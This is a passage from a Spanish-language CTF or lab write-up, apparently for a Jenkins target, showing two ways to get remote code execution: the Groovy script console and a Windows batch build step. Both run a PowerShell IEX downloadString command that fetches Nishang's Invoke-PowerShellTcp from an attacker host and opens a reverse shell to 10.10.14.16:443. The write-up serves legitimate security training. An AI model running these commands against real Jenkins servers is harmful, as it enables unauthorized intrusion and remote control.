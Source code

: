 Al visualizar la sintáxis necesaria para ejecutar comandos de consola expuesta en la misma sección, se preparó la reverse shell de [nishang](https://github.com/samratashok/nishang) ejecutando al final del archivo la función empleada para entablar una reverse shell:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.16 -Port 443
```

#### Ejecución

Se envió la invocación al recurso expuesto mediante la consola de scripts:

```groovy
print "powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/Invoke-PowerShellTcp.ps1')".execute().text
```

Estableciendo así la reverse shell.

![Reverse shell establecida](images/exploit_2.png)

### RCE 2

#### Pasos previos | Preparación

Igualmente se pueden ejecutar comandos directamente en la máquina mediante la creación de un nuevo item `Create New Item > Freestyle Project > Build > Execute Windows batch command`, guardando en el campo de texto el comando a ejecutar:

```powershell
powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/Invoke-PowerShellTcp.ps1')
```

![Comando a ejecutar](images/exploit_3.png)
